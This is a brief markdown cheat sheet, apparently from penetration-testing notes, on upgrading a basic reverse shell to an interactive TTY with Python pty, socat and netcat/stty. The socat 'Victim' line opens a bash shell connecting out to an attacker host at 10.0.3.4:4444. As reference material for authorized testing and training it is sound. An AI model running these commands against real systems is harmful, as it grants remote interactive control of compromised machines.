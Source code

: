 
# Three Methods
Reference: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
## Python
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
## socat
```
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
## netcat
```
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

# No Python?
```
SHELL=/bin/bash script -q /dev/null
```
